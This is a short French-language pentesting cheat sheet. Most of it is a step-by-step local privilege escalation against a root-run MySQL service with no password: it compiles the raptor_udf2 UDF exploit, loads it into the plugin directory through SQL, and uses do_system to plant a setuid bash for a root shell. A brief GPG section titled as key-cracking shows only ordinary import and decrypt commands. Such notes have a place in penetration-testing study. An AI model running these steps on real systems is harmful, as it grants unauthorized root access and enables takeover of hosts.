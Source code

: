 # Service Exploit

## MySQL

Le service MySQL s'exécute en tant que root et l'utilisateur « root » du service n'a pas de mot de passe attribué.

Nous pouvons utiliser un [exploit](https://www.exploit-db.com/exploits/1518) qui tire parti des fonctions définies par l'utilisateur (UDF) pour exécuter des commandes système en tant que root via le service MySQL.

```sh
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```sh
mysql -u root
```

```sql
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/[FULL_PATH]/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

```sh
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

```sh
exit
```

```sh
/tmp/rootbash -p
```

## GPG

Casser une cle GPG

```sh
gpg --import key.asc [.key]
gpg --decrypt key.pgp [.gpg]
```
